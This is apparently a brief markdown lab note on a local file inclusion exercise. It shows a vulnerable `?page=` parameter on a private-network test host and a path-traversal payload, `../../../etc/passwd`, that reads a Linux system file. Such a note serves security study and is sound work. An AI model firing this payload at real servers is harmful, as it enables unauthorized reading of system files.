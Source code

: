 # File Include

## Example 1 - `?page=` exploit

`http://172.16.219.145/fileincl/example1.php?page=intro.php`
- `?page=` points to a file on the linux system

### Payload

`?page=../../../etc/passwd`

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413193714.png" width="600"/>

